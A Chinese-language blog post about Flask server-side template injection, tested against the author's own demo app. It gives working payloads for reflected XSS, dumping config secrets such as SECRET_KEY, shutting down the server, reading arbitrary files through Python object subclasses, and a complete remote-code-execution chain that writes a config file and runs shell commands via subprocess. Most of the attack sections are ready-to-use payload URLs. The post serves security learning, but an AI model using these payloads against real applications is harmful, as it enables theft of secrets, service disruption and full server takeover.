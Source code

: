 ```yaml
---
layout: post
title: flask-ssti注入
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[源代码地址](https://github.com/ZhangAiQiang/Flask/tree/master/flask-session%E8%BA%AB%E4%BB%BD%E4%BC%AA%E9%80%A0%E7%AE%80%E5%8D%95%E6%BA%90%E7%A0%81)  (请用python2.7运行，python3有点出入)
  
# **注入点:**     

![](https://i.imgur.com/BjpRspN.png)  

不是返回的静态模板而是反回模板字符串变得让客户端可以控制。  
  
# **XSS**   #
  
这里直接  
>     http://39.105.116.195:9000/<script>alert(1)</script>就会有反射性XSS    

<script>alert("震惊")</script>

flask对模板文件和模板文件中内容进行转义,可如果直接返回模板字符串或者直接返回字符串的话是不会转义的:  


  
![](https://i.imgur.com/AlrT7iT.png)  

只有xss1不会弹框，因为传到了静态文件里面，flask会自动进行转义。  

# **注入测试**   

http://39.105.116.195:9000/{{1+1}}  发现回传的是"/2"存在注入点。  

![](https://i.imgur.com/ls9zH4o.png) 

存在注入。  

# **config** #
 
flask的一个内置全局变量，保存着一些很隐私的信息。  

![](https://i.imgur.com/76P4EX0.png)  

比如SECRET_KEY，就可以session伪造用户。还有数据库连接的信息，就知道了数据库的密码。    



# **request** 
类似于config，保存着一些信息。**request.environ**是一个字典，其中包含和服务器环境相关的对象  

![](https://i.imgur.com/domxsHz.png)  

>     http://39.105.116.195:9000/{{ request.environ['werkzeug.server.shutdown']()}}这个会让服务器停止运行python，但是在gunicorn环境下中不会。  

# **config的from_object方法** #

{{ config.from_object('os') }}通过这个方法，config属性里面多了os(这是举个例子，其他的库自己也可以试试)库里面名字全是大写的属性和变量，而且是可以直接调用。  
  

# **几个重要的属性**  

![](https://i.imgur.com/AZFDkgb.png)  
运行结果  

![](https://i.imgur.com/qVopj2E.png)
  
# **任意文件读取** #
![](https://i.imgur.com/uApeB1u.png)  

>     ""根据__class__是个str类型，根据__mro__(或者__base__)找到object，再由__subclasses__找到object的所有子类，然后调用其中的file属性实现任意文件读取。  



# **远程代码执行利用from_pyfile** #

将一个文件的路径传进去然后编译，这样我们结合file的写功能就可以在指定的位置写文件，然后用from_pyfile编译。    

**写入指令print(1+1)**

![](https://i.imgur.com/wYQ0Skk.png)    
  
**pyfile来编译执行，返回TRUE执行成功。**


![](https://i.imgur.com/udhMvsj.png)  
 
## 还有一种是不用每次写文件，写一次，然后每次只传入命令就好。  

>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\rRUNCMD = check_output') }}   

参考[文章](http://www.anquan.us/static/drops/tips-13683.html)的时候,他是\n\r，可能是mac本，不管了，服务器一般用linux，\n\r写入回车就好了。还有一个需要注意的是，如果你是直接在浏览器上输入反斜杠的话会给你编码为/，所以会编译失败(因为没有回车)，url编码一下就好了%5cn%5cr  
    
>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output%5cn%5crRUNCMD = check_output') }},另外的话如果用burp抓包发送是不需要考虑编码的。

**编译**  

>     {{ config.from_pyfile('/tmp/owned.cfg') }}  

**命令执行:**
  
>     http://39.105.116.195:9000/{{ config['RUNCMD']('ls /',shell=True)}}  

  
![](https://i.imgur.com/i5R1Iod.png)